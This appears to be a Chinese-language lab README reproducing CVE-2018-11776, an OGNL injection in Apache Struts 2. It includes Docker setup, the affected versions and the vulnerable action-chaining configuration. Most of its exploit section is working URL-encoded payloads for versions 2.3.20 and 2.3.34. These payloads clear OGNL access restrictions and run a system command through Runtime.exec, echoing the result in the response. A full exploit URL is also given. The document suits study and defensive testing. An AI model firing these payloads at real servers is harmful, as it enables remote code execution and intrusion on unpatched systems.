

## 环境部署

```
docker-compose build 
docker-compose up -d 
```

该漏洞是鸡肋漏洞


1. 漏洞影响

确定CVE-2018-11776为高危漏洞。
实际场景中存在一定局限性，需要满足一定条件。

2. 影响版本

Struts 2.3 to 2.3.34
Struts 2.5 to 2.5.16

3. 修复版本

Struts 2.3.35
Struts 2.5.17


## 漏洞复现
访问http://127.0.0.1:8080/struts2-showcase/${(111+111)}/actionChain1.action
会显示到了http://127.0.0.1:8080/struts2-showcase/222/actionChain1.action， 该测试条件针对所有版本通杀，但是事项命令执行就需要一些低级的版本


两个版本都是利用com.opensymphony.xwork2.dispatcher.HttpServletResponse对象去打印命令执行后的回显数据

2.3.20 版本的POC如下：

/%24%7B%28%23_memberAccess%3D@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS%29.%28%23w%3D%23context.get%28%22com.opensymphony.xwork2.dispatcher.HttpServletResponse%22%29.getWriter%28%29%29.%28%23w.print%28@org.apache.commons.io.IOUtils@toString%28@java.lang.Runtime@getRuntime%28%29.exec%28%27whoami%27%29.getInputStream%28%29%29%29%29.%28%23w.close%28%29%29%7D/index.action
2.3.34 版本的POC如下：

/%24%7B%28%23dm%3D@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS%29.%28%23ct%3D%23request%5B%27struts.valueStack%27%5D.context%29.%28%23cr%3D%23ct%5B%27com.opensymphony.xwork2.ActionContext.container%27%5D%29.%28%23ou%3D%23cr.getInstance%28@com.opensymphony.xwork2.ognl.OgnlUtil@class%29%29.%28%23ou.getExcludedPackageNames%28%29.clear%28%29%29.%28%23ou.getExcludedClasses%28%29.clear%28%29%29.%28%23ct.setMemberAccess%28%23dm%29%29.%28%23w%3D%23ct.get%28%22com.opensymphony.xwork2.dispatcher.HttpServletResponse%22%29.getWriter%28%29%29.%28%23w.print%28@org.apache.commons.io.IOUtils@toString%28@java.lang.Runtime@getRuntime%28%29.exec%28%27whoami%27%29.getInputStream%28%29%29%29%29.%28%23w.close%28%29%29%7D/index.action


EXP
```
http://127.0.0.1:8080/struts2-showcase/%24%7B%28%23dm%3D@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS%29.%28%23ct%3D%23request%5B%27struts.valueStack%27%5D.context%29.%28%23cr%3D%23ct%5B%27com.opensymphony.xwork2.ActionContext.container%27%5D%29.%28%23ou%3D%23cr.getInstance%28@com.opensymphony.xwork2.ognl.OgnlUtil@class%29%29.%28%23ou.getExcludedPackageNames%28%29.clear%28%29%29.%28%23ou.getExcludedClasses%28%29.clear%28%29%29.%28%23ct.setMemberAccess%28%23dm%29%29.%28%23w%3D%23ct.get%28%22com.opensymphony.xwork2.dispatcher.HttpServletResponse%22%29.getWriter%28%29%29.%28%23w.print%28@org.apache.commons.io.IOUtils@toString%28@java.lang.Runtime@getRuntime%28%29.exec%28%27whoami%27%29.getInputStream%28%29%29%29%29.%28%23w.close%28%29%29%7D/actionChain1.action
```




[漏洞分析](https://4hou.win/wordpress/?p=23374)


部署方案
```
修改/usr/local/tomcat/webapps/struts2-showcase/WEB-INF/classes/struts-actionchaining.xml和/usr/local/tomcat/webapps/struts2-showcase/WEB-INF/src/java/struts-actionchaining.xml文件如下

<struts>
    <package name="actionchaining" extends="struts-default">
        <action name="actionChain1" class="org.apache.struts2.showcase.actionchaining.ActionChain1">
           <result type="redirectAction">
             <param name = "actionName">register2</param>
           </result>
        </action>
    </package>
</struts>
```


